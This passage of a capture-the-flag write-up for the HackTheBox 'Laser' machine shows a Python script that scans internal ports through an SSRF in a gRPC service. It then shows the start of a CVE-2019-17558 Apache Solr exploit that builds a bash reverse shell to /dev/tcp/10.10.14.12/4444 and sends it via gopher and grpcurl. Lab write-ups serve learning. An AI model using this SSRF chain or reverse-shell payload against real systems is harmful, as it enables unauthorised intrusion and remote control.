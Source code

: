 ![Reply_NC](/images/Hackthebox/Laser/Reply_from_nc.png)

Now we are reciveing connection from the machine! Now we have to create another python script which will be basic port scanner so that we can scan internal ports from the machine network.

```python
import sys, pickle, base64
import grpc, laser_pb2, laser_pb2_grpc

for port in range(1, 65536):
    payload = '{"feed_url":"http://localhost:' + str(port) + '"}'
    payload = base64.b64encode(pickle.dumps(payload))
    channel = grpc.insecure_channel('10.10.10.201:9000')
    stub = laser_pb2_grpc.PrintStub(channel)
    content = laser_pb2.Content(data=payload)
    try:
        response = stub.Feed(content, timeout=10)
        print(port, response)
    except Exception as ex:
        if 'Connection refused' in ex.details():
            continue
        print(port)
```
![Internal_Port_Scan](/images/Hackthebox/Laser/PortScan.png)

We have enumerated 2 Internal Ports :
```python
7983
8983 feed: "Pushing feeds"
```
### Apache Solr RCE
Port 8983 uses Apache Solr RCE [Exploit](https://github.com/veracode-research/solr-injection#7-cve-2019-17558-rce-via-velocity-template-by-_s00py)

So we are going to use a exploit coded in python for getting reverse shell by exploiting the CVE-2019-17558

```python
import sys,pickle,base64,subprocess

payload = 'bash -c {echo,' + base64.b64encode("bash -i >& /dev/tcp/10.10.14.12/4444 0>&1").replace('+','%2b') + '}|{base64,-d}|{bash,-i}'

def send_url(url):
  feed_url = '{"feed_url": "gopher://localhost:8983/_' + url + '"}'
  print(feed_url)
  feed_url_b64 = base64.b64encode(pickle.dumps(feed_url))
  cmd = './grpcurl -max-time 5 -plaintext -proto laser.proto -d \'{"data":"' + feed_url_b64 + '"}\' 10.10.10.201:9000 Print.Feed'
  subprocess.call(cmd,shell=True)


```